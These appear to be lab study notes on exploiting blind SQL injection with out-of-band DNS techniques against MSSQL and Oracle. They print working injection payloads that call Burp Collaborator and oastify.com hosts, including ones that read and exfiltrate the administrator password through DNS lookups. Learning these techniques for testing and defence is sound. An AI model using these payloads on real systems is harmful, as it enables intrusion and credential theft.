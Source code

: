 ## Exploiting blind SQLi using out-of-band (OAST) techniques

An application might carry out the same SQL query as the previous example (time-delays) but do it asynchronously. The application continues processing the user's request in the original thread, and uses another thread to execute a SQL query using the tracking cookie. The query is still vulnerable to SQL injection, but none of the techniques described so far will work. The application's response doesn't depend on the query returning any data, a database error occurring, or on the time taken to execute the query.

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering out-of-band network interactions to a system that you control. These can be triggered based on an injected condition to infer information one piece at a time. More usefully, data can be exfiltrated directly within the network interaction.

A variety of network protocols can be used for this purpose, but typically the most effective is DNS (domain name service). Many production networks allow free egress of DNS queries, because they're essential for the normal operation of production systems.

---
The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain

```http
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

> [!example] Lab Example (OracleSQL)
> Lab Example DNS lookup exploiting XXE (Picture below, not code)
> ```sql
> '+UNION+SELECT+EXTRACTVALUE(xmltype('<(percent-sign)3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//aguwc4wrt8qnbkrjnl2haga6exko8fw4.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
> ```

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. 

For example (MsSQL):

```sql
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This lookup allows you to view the captured password:

```http
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are a powerful way to detect and exploit blind SQL injection, due to the high chance of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

> [!example] Lab Example. Fetching administrator password using DNS lookup with data exfiltration:
> Make sure to **replace** percent-sign with %
> 
> ```sql
> '+UNION+SELECT+EXTRACTVALUE(xmltype('<(percent-sign)3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.aguwc4wrt8qnbkrjnl2haga6exko8fw4.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
> ```

> [!important] Important
> **Do Not Forget** to put your query inside brackets (Your Query Here)